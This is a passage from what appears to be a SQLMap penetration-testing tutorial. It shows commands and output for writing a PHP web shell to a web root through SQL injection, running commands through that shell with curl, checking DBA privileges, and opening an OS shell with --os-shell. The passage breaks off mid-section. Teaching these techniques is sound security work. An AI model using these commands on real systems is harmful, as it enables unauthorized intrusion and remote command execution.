 Write the shell to the target:

```bash
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

**Example Output:**
```plaintext
[INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)
```

Access the shell and execute commands:

```bash
curl http://www.example.com/shell.php?cmd=ls+-la
```

---

## Checking DBA Privileges

To check if the current user has DBA privileges:

```bash
sqlmap -u "http://www.example.com/?id=1" --is-dba
```

**Example Output:**
```plaintext
current user is DBA: True
```

If `True`, the user may have permission to read or write local files.

---

## OS Command Execution

SQLMap can provide an interactive OS shell through SQL Injection vulnerabilities.

### Using `--os-shell`

Execute commands directly:

```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

**Example Output:**
```plaintext
os-shell> ls -la
do you want to retrieve the command standard output? [Y/n/a] a
```

### Specify SQL Injection Technique
If the default method fails, specify a different SQLi technique (e.g., Error-based):
